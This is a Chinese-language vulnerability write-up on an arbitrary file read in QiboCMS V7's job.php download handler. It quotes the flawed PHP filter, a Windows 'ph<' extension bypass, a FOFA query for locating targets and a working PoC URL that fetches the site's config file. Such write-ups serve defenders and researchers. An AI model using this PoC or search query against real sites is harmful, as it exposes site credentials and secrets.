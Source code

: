 # 齐博CMS V7 job.php 任意文件读取漏洞

## 漏洞描述

QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。

## 漏洞影响

<a-checkbox checked>齐博CMS V7</a-checkbox></br>

## FOFA

<a-checkbox checked>app="齐博软件-v7"</a-checkbox></br>

## 漏洞复现

漏洞分析 `/inc/job/download.php`

```javascript
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。 

```javascript
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

漏洞POC

```javascript
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

![img](../../../.vuepress/public/img/1645791092460-d64578f5-21f6-4b40-ba48-0926f5e91dc3.png)




